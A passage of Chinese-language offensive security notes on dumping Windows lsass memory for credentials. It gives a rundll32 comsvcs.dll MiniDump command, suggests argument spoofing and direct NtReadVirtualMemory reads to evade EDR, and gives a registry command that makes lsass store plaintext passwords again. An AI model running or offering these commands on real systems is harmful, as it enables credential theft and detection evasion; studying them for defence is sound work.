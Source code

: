 `dbghelp.dll!MiniDumpWriteDump`指向`dbgcore.dll!MiniDumpWriteDump`

### comsvcs.dll!MiniDump

该函数为`MiniDumpWriteDump`的封装

签名，前两个参数未使用，第三个参数为`"[PID] [FILENAME] [Mode]"`格式的字符串

```c++
HRESULT WINAPI MiniDumpW(DWORD, DWORD, PWCHAR);
```

`rundll32`的entrypoint签名是

```c++
void CALLBACK EntryPoint(HWND hwnd, HINSTANCE hinst, LPSTR lpszCmdLine, int nCmdShow);
```

所以可以直接白名单利用，配合CommanLine参数欺骗更佳（参数欺骗见https://github.com/EddieIvan01/win32api-practice/tree/master/argument-spoofer）

```
rundll32 comsvcs.dll MiniDump [PID] 1.bin full

.\argument-spoofer.exe "rundll32 comsvcs.dll MiniDump [PID] 1.bin full"
```

### ntdll.dll!NtReadVirtualMemory

说到底`MiniDumpWriteDump`也只是读取进程虚拟内存并解析结构化数据，到R3最底层还是通过`NtReadVirtualMemory`系统调用，所以完全可以读取后自行解析，这样就可以消除`MiniDump`API的特征

（没有代码，解析结构工作量挺大的，而且意义不大，EDR更可能会针对`NtReadVirtualMemory`

## 对抗

### Disable WDigest SSP

在低版本中，Mimikatz的WDigest模块能够从lsass中抓取到明文密码

因为Wdigest SSP的认证是challenge/response机制，而response的计算需要明文密码而不是hash(见[n1nty-Mimikatz_WDigest](https://mp.weixin.qq.com/s?__biz=MzI5Nzc0OTkxOQ==&mid=2247483811&idx=1&sn=787dc8ba5130d810ff314da12a1eed29&chksm=ecb11d53dbc69445cff3acd5bf06274e81748347fd61700e54d235029087bfb30b0c60cd217b&sessionid=0&scene=126&clicktime=1595831591&enterid=1595831591&ascene=3&devicetype=android-28&version=2700103e&nettype=3gnet&abtest_cookie=AAACAA%3D%3D&lang=zh_CN&exportkey=A3dpDW6l%2BIIBM25L620vBCE%3D&pass_ticket=4UjWDF9FzrBdr3gJBM7VLbepiEigo88J2L5CcpXCH7o%3D&wx_header=1))，所以lsass进程中需要保存明文密码

```
response = md5(md5(username + realm + password) + nonce + md5(method + digestURI))
```

在安装KB2871997后，可配置禁用WDigest SSP(高版本默认禁用)，lsass进程不再保存明文密码，见[link](https://getadmx.com/?Category=SecurityBaseline&Policy=Microsoft.Policies.PtH::Pol_PtH_WDigestAuthn)

配置启用WDigest，修改注册表后重启

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```
